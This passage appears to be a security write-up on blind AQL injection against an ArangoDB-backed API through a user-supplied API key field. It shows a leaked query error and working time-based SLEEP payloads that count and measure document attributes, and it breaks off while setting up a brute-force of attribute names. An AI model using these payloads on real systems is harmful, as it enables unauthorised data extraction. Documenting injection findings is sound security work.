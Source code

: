 ```SQL
"Timeout or error in query:\nFOR doc IN config\n FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'\n <other_query_lines_omitted>\n RETURN doc"
```

- I used the copilot to identify the DB vendor according to this error and it said it can be AragonDB:

```The structure of the query and the terminology used, such as "FOR doc IN config" and "FILTER," points towards it being associated with ArangoDB. ArangoDB is a multi-model NoSQL database that supports key/value, document, and graph data models.```

## Testing for BLIND Injection

- I found the SYNTAX which may trigger the sleep function:

```SQL
' or SLEEP(2) --'a
```

- According to error message I need to find the name of the KEY ```doc.<key_name_omitted>``` for later pulling its value.

## Key's name dump

### how many attributes

- First we need to determine how many attributes the ```doc``` has:

```SQL
' or LENGTH(ATTRIBUTES(doc))==4 ? SLEEP(2) : 'a
```

- Answer is ```4```.

### Length of attribute name

- We need to enumerate how many characters each attribute has:

```SQL
'or LENGTH(ATTRIBUTES(doc)[{attribute_index}])=={length} ? SLEEP(2) : 'a
```

- Answer is:

```text
Attribute 0 has length of 18
Attribute 1 has length of 4
Attribute 2 has length of 4
Attribute 3 has length of 3
```

### Guess name of the attribute

- Now we are ready to execute the bruteforce attack to find a name of each attribute.
- We need to make a AQL query using of one STRING methods, e.g. LIKE <https://docs.arangodb.com/3.12/aql/functions/string/#like>
- The AQL utilizing the LIKE method can looks like:
